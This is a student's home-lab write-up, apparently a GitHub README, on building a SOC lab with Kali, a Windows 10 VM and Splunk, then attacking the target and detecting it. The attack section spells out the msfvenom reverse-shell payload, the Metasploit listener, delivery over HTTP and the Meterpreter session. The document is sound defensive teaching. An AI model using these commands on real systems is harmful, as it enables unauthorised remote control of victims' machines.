




# Building a SOC Home Lab From Scratch — Attacks, Detection, and Real SIEM Alerts

*A complete walkthrough of how I built a Security Operations Center lab, configured the network, installed all the tools, simulated real attacks, and caught them using Splunk.*

---

## Why I Built This

As a cybersecurity student, I kept running into the same problem. I could read about brute force attacks, reverse shells, and SIEM detection all day long. But I had never actually done it myself in a real environment.

So I decided to build one. A home lab where I could play both sides — attack as a red teamer, detect as a blue teamer, and learn what a real SOC workflow looks like from the inside.

This article covers everything. How I set up the lab, how I configured the network, how I installed all the tools, and then the attacks themselves — with real screenshots of both the attack and the detection in Splunk.

---

## Lab Architecture

Here is the full picture of what I built:

```
┌─────────────────────────────────────────────────────────────┐
│                    Home WiFi Network                        │
│                                                             │
│   ┌──────────────┐   attacks   ┌──────────────────────┐     │
│   │  Kali Linux  │ ──────────▶ │    Windows 10 VM     │     │
│   │ 192.168.1.18 │             │    192.168.1.11      │     │
│   │  Attacker    │             │  Target + Forwarder  │     │
│   └──────────────┘             └──────────┬───────────┘     │
│                                           │ logs (port 9997)│
│                                    ┌──────▼──────────┐      │
│                                    │   Mac Laptop    │      │
│                                    │  192.168.1.12   │      │
│                                    │ Splunk SIEM     │      │
│                                    └─────────────────┘      │
└─────────────────────────────────────────────────────────────┘
```

Three machines. One attacker, one target, one SIEM. All connected on the same home WiFi network.

---

## Tools and Technologies

| Category | Tool | Purpose |
|---|---|---|
| Hypervisor | VirtualBox | Running VMs on Windows laptop |
| Attacker OS | Kali Linux | Attack machine |
| Target OS | Windows 10 | Victim machine |
| SIEM | Splunk Enterprise | Log collection and detection |
| Log agent | Splunk Universal Forwarder | Ships Windows logs to Splunk |
| Scanning | Nmap | Network reconnaissance |
| Exploitation | Metasploit / msfvenom | Payload generation and post-exploitation |
| Delivery | Python HTTP server | Serving payload to target |

---

## Part 1 — Setting Up the Lab

### Step 1 — Install VirtualBox

I downloaded VirtualBox for free from virtualbox.org and installed it on my Windows 10 laptop. VirtualBox lets you run multiple operating systems at the same time inside virtual machines.

### Step 2 — Create the Kali Linux VM

I downloaded the Kali Linux ISO from kali.org. Then in VirtualBox I clicked New and filled in:

- Name: Kali-Attacker
- Type: Linux
- Version: Debian 64-bit
- RAM: 2048 MB
- Disk: 30 GB

I attached the Kali ISO under Storage, started the VM, and installed Kali Linux following the normal installer.

### Step 3 — Create the Windows 10 VM

I downloaded the Windows 10 evaluation ISO from Microsoft for free. In VirtualBox I created a new VM:

- Name: Windows10-Target
- Type: Microsoft Windows
- Version: Windows 10 64-bit
- RAM: 2048 MB
- Disk: 50 GB

I installed Windows 10 from the ISO. During installation I skipped the product key — the evaluation version runs fine without one.

---

## Part 2 — Network Configuration

This is one of the most important parts. I needed all three machines to talk to each other. The easiest way to do this is using Bridged Adapter in VirtualBox — this puts the VMs directly on your home WiFi network so they get real IP addresses from your router.

### Setting Bridged Adapter on Kali VM

In VirtualBox I clicked on the Kali VM, went to Settings → Network → Adapter 1 and changed it to:

- Attached to: Bridged Adapter
- Name: my WiFi adapter (Intel Wireless)

### Setting Bridged Adapter on Windows 10 VM

Same steps for Windows 10 VM. Settings → Network → Adapter 1:

- Attached to: Bridged Adapter
- Name: same WiFi adapter

### Verify the IPs

After booting both VMs I checked their IPs.

On Kali terminal:
```bash
ip a
```

On Windows 10 CMD:
```cmd
ipconfig
```

Results:
- Kali Linux got IP: `192.168.1.18`
- Windows 10 got IP: `192.168.1.11`
- Mac (Splunk host) IP: `192.168.1.12`

### Test connectivity

From Kali I pinged Windows 10:
```bash
ping 192.168.1.11
```

From Windows 10 I pinged Kali:
```cmd
ping 192.168.1.18
```

Both replied. The network was working.

### Allow ping on Windows 10

Windows 10 blocks ping by default. I opened CMD as Administrator and ran:
```cmd
netsh advfirewall firewall add rule name="Allow ICMPv4" protocol=icmpv4:8,any dir=in action=allow
```

---

## Part 3 — Installing Splunk on Mac

Splunk is the SIEM — the brain of the SOC. It collects logs from the Windows machine and lets me search and alert on them.

I downloaded Splunk Enterprise for Mac from splunk.com (free account, no business email needed). The file was a `.dmg` installer.

I mounted it and installed via Terminal:
```bash
sudo installer -pkg "/Volumes/Splunk 10.2.1/.payload/Splunk_10.2.1.pkg" -target /
```

Then started Splunk:
```bash
sudo /Applications/Splunk/bin/splunk start --accept-license --run-as-root
```

I set the admin username and password when prompted. After it started I opened the dashboard in my browser at:
```
http://192.168.1.12:8000
```

### Configure Splunk to receive logs

In the Splunk dashboard I went to Settings → Forwarding and Receiving → Configure Receiving → New Receiving Port and added port `9997`.

This tells Splunk to listen for incoming logs on port 9997.

### Create a log index

I went to Settings → Indexes → New Index and created:
- Index name: `winsec`
- Index type: Events

This is where all Windows security logs will be stored.

---

## Part 4 — Installing Splunk Universal Forwarder on Windows 10

The Universal Forwarder is a lightweight agent that runs on the Windows 10 machine and ships its logs to Splunk automatically. It uses almost no resources.

I downloaded the Windows forwarder MSI from splunk.com directly inside the Windows 10 VM browser. During the installer wizard I filled in:

- Receiving Indexer IP: `192.168.1.12`
- Receiving Indexer Port: `9997`
- Username: admin
- Password: my Splunk password

After installation I opened CMD as Administrator and added the Windows Security and System log monitors:

```cmd
"C:\Program Files\SplunkUniversalForwarder\bin\splunk.exe" add monitor "WinEventLog://Security" -index winsec -sourcetype WinEventLog:Security -auth admin:yourpassword

"C:\Program Files\SplunkUniversalForwarder\bin\splunk.exe" add monitor "WinEventLog://System" -index winsec -sourcetype WinEventLog:System -auth admin:yourpassword

"C:\Program Files\SplunkUniversalForwarder\bin\splunk.exe" restart
```

### Verify logs are flowing

Back in Splunk I went to Search and Reporting and ran:
```
index=winsec
```

Within 2 minutes Windows 10 events started appearing. The pipeline was working — Windows logs were flowing into Splunk in real time.

---

## Part 5 — The Attacks

Now the fun part. With the lab fully set up I ran three attacks from Kali against the Windows 10 machine.

---

### Attack 1 — Reconnaissance with Nmap

Every attack starts with reconnaissance. Before doing anything I needed to know what was running on the target machine. What ports are open? What services? What OS version?

I ran a full scan from Kali:

```bash
nmap -sS -A 192.168.1.11
```

The `-sS` flag does a stealth SYN scan and `-A` enables OS detection and service version detection.


The results told me everything I needed:

```
PORT     STATE  SERVICE        VERSION
135/tcp  open   msrpc          Microsoft Windows RPC
139/tcp  open   netbios-ssn    Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp open   ms-wbt-server  Microsoft Terminal Services
5357/tcp open   http           Microsoft HTTPAPI httpd 2.0

Running: Microsoft Windows 10
OS details: Microsoft Windows 10 1709 - 21H2
Computer name: DESKTOP-KLVA0MN
```

Port 445 (SMB) and port 3389 (RDP) were both open. The machine was Windows 10 Build 19044. I had everything I needed to move to the next phase.

---

### Attack 2 — Reverse Shell with Metasploit

With the target mapped out, the next step was getting a shell. I used Metasploit's msfvenom to generate a reverse shell payload — a Windows executable that connects back to my Kali machine when run.

**Step 1 — Generate the payload:**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=192.168.1.18 \
  LPORT=4444 \
  -f exe \
  -o /tmp/payload.exe
```

This created `payload.exe` — a 7KB file that looks harmless but opens a Meterpreter shell back to Kali the moment it runs.

**Step 2 — Start the Metasploit listener:**

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.18
set LPORT 4444
run
```


The terminal showed:
```
[*] Started reverse TCP handler on 192.168.1.18:4444
```

Kali was now listening on port 4444 waiting for the payload to call home.

**Step 3 — Deliver the payload:**

I served the file from Kali using Python's built-in HTTP server:

```bash
cd /tmp && python3 -m http.server 8080
```

On the Windows 10 machine I opened the browser and went to `http://192.168.1.18:8080/payload.exe`, downloaded it, and ran it.

Within seconds Metasploit showed:

```
[*] Sending stage to 192.168.1.11
[*] Meterpreter session 1 opened
meterpreter >
```

**Step 4 — Post exploitation:**

I ran two commands to confirm full access:

```bash
sysinfo
getuid
```


Output:
```
Computer    : DESKTOP-KLVA0MN
OS          : Windows 10 (10.0 Build 19044)
Architecture: x64
Logged On Users: 2
Server username: DESKTOP-KLVA0MN\Tayyab
```

Full control. Real user session. From this point an attacker could do anything — steal credentials, install a backdoor, move laterally through the network.

---

## Part 6 — Detection in Splunk

Here is where the defender side kicks in. While all of that was happening, every single action was being logged by Windows and shipped to Splunk in real time.

### Detection 1 — General security events

Right after the Nmap scan I ran this search in Splunk:

```
index=winsec | table _time, host, EventCode, src_ip | sort -_time
```



Splunk had logged 42 events. The Nmap probe generated network connection events across multiple Windows event codes. The machine activity was fully visible in the SIEM.

### Detection 2 — Payload execution caught

This is the most important detection in the whole lab. When `payload.exe` ran on the Windows machine, Windows automatically created an EventCode 4688 — new process creation. Splunk captured it.

I searched for it specifically:

```
index=winsec EventCode=4688
| search New_Process_Name="*\\Downloads\\*"
| table _time, host, New_Process_Name, Creator_Process_Name
```



Results:

| Time | Host | Process | Parent |
|---|---|---|---|
| 17:09:19 | DESKTOP-KLVA0MN | C:\Users\Tayyab\Downloads\payload.exe | C:\Windows\explorer.exe |
| 17:08:32 | DESKTOP-KLVA0MN | C:\Users\Tayyab\Downloads\payload.exe | C:\Windows\explorer.exe |
| 17:07:54 | DESKTOP-KLVA0MN | C:\Users\Tayyab\Downloads\payload.exe | C:\Windows\explorer.exe |

Three executions. All from the Downloads folder. All launched by Windows Explorer meaning a user double-clicked the file. This is the exact pattern real malware follows and Splunk caught every single instance.

### The SOC Dashboard

I built a Splunk dashboard called **SOC Lab — Binyameen** to show all detections in one place. I went to Dashboards → Create New Dashboard, added panels using the process creation query, and saved it.



The dashboard showed the full event details — time, computer name, log source, event code — exactly what a real SOC analyst sees during an active investigation.

### Splunk Alert — Automatic Detection

Finally I configured a Splunk alert that runs automatically and triggers whenever a suspicious process runs from the Downloads folder. No manual searching needed.

Go to Search and Reporting → run the detection query → Save As → Alert:
- Title: Suspicious Process Creation
- Alert type: Scheduled
- Run every: 1 hour
- Trigger: Number of results greater than 0



The alert is live. Status shows Enabled. Next scheduled run: 31 Mar 2026 17:23:00. In a real environment this would automatically notify the on-call analyst.

---

## Summary — Full Attack Chain Detected

| Phase | Action | Tool | EventCode | Detection |
|---|---|---|---|---|
| Reconnaissance | Port scan | Nmap | 5379, 5156 | Network connection events |
| Delivery | HTTP file transfer | Python server | - | Web access log |
| Execution | payload.exe ran | msfvenom | 4688 | Process creation logged |
| C2 | Meterpreter session | Metasploit | 5156 | Outbound connection |
| Discovery | sysinfo, getuid | Meterpreter | 4688 | Child process activity |

Every phase of the attack left evidence. The attacker thought they were in control. Splunk had the full story the whole time.

---

## MITRE ATT&CK Mapping

| Technique | ID | What I Did |
|---|---|---|
| Network Service Scanning | T1046 | Nmap -sS -A scan |
| Ingress Tool Transfer | T1105 | payload.exe via Python HTTP |
| User Execution — Malicious File | T1204.002 | Double-click payload.exe |
| Command and Control | T1571 | Meterpreter reverse TCP |
| System Information Discovery | T1082 | sysinfo in Meterpreter |

---

## Key Takeaways

**As a defender:**
- Enable process creation auditing (EventCode 4688) on every Windows machine you monitor — it is one of the most valuable log sources in a SOC
- Any executable running from Downloads, Temp, or AppData folders deserves immediate investigation
- Splunk is only useful if you build detection rules — the tool does not protect you, the queries and alerts do

**As an attacker:**
- Windows logs everything. There is no such thing as a silent move on a monitored machine
- Running payloads directly from Downloads is one of the first things every SOC analyst looks for
- Multiple executions of the same payload in minutes is an obvious pattern in any SIEM

---

## Tools Used

| Tool | Where to get it | Cost |
|---|---|---|
| VirtualBox | virtualbox.org | Free |
| Kali Linux | kali.org | Free |
| Windows 10 | microsoft.com/en-us/evalcenter | Free evaluation |
| Splunk Enterprise | splunk.com | Free up to 15GB/day |
| Splunk Universal Forwarder | splunk.com | Free |
| Nmap | Built into Kali | Free |
| Metasploit | Built into Kali | Free |

Total cost of this entire lab: zero.

---

## What is Next

This lab is the foundation. The next phase is adding **n8n workflow automation** to make the SOC truly autonomous.

When Splunk fires an alert, n8n will automatically:
- Read the alert details from the Splunk API
- Look up the attacker IP on VirusTotal for threat intelligence
- Classify the severity using AI
- Create a full structured incident report
- Send a real-time notification

No human input. Fully automated SOC L1 triage. That is the next project.

---

## Repository Structure

```
SOC-Lab-Automated-Detection/
├── README.md                      
├── screenshots/
│   ├── 01-nmap-scan.png
│   ├── 02-metasploit-listener.png
│   ├── 03-meterpreter-session.png
│   ├── 04-splunk-events.png
│   ├── 05-splunk-payload-detection.png
│   ├── 06-splunk-dashboard.png
│   └── 07-splunk-alerts.png
├── detection-rules/
│   └── splunk-alerts.md
└── attack-simulations/
    └── attack-commands.md
```

---

## Author

**Binyameen Yousaf**
Cybersecurity Student | Penetration Tester | SOC Analyst
BS Cybersecurity — Superior University, Lahore
Ranked Top 6% globally — Hack The Box University CTF

- GitHub: github.com/binyameenyousaf021
- Email: binyameenyousaf021@gmail.com
- Linkedin: https://www.linkedin.com/in/binyameen-yousaf-80a8973a1

*Tags: cybersecurity soc-lab splunk kali-linux metasploit nmap siem penetration-testing home-lab threat-detection blue-team red-team windows-security incident-response eventcode-4688 meterpreter virtualbox network-configuration splunk-forwarder*
